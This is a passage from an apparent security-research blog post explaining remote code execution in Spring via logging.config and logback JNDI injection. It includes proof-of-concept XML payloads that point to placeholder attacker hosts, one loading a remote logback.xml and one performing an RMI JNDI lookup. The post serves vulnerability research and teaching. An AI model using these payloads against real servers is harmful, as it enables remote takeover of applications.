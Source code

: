 
Following the flow of the `location` argument which is controlled by the attacker, we can reach `configureByResourceUrl` at [9] with the location converted to a `URL`. Finally, at [10] we can see that the (in)famous `JoranConfigurator` initialized and then finally a call to `doConfigure`.

Those that have attended my class probably know where this is going. We can use a `logback.xml` URL to reconfigure the log-back library. The final proof of concept `application.xml` looks like this:

```xml
<!DOCTYPE properties SYSTEM "http://java.sun.com/dtd/properties.dtd">
<properties>
    <entry key="logging.config">http://[attacker]:[port]/logback.xml</entry>
</properties>
```

and the corresponding log-back file which may look familiar to some:

```xml
<configuration>
  <insertFromJNDI env-entry-name="rmi://[attacker]:1099/Object" as="appName" />
</configuration>
```

The stars aligned here, we found a way to restart the server remotely using one of the exposed REST API's and of course `ELProcessor` was included in the class path. The result:

![](/assets/images/remote-code-execution-with-spring-properties/rce.png "Getting RCE via JNDI injection (ab)using Spring properties")

## Concluding thoughts

There are likely many other ways to gain remote code execution here such as defining log file paths and other vectors. I didn't have a lot of time to look at this and I just went with the first approach that worked. I encourage other researchers to dive into the Spring framework and find other Listeners using environment properties and find other vectors for exploitation! There are other vectors for code injection using log-back, such as JDBC (taught in class) and (ab)using the un-marshaller directly. But that is an exercise for the reading researcher.

## References

- [https://juejin.cn/post/6972564484720328718](https://juejin.cn/post/6972564484720328718)
